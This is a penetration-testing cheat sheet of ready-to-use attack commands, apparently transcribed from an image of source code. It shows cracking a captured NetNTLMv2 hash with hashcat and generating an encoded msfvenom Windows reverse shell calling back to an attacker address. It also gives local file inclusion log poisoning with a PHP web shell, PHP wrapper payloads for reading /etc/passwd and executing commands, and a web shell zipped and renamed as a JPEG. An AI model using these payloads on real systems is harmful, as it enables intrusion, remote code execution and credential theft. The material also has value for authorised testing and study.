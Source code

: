 ```bash
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000

# crack with hashcat
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

### Generating Payload with msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

### Compiling Code From Linux

```bash
# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe

# Linux
gcc -m32|-m64 -o output source.c
```

### Local File Inclusion to Shell

```bash
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close

# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Local File Inclusion: Reading Files

```bash
file:///etc/passwd

http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>

expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
```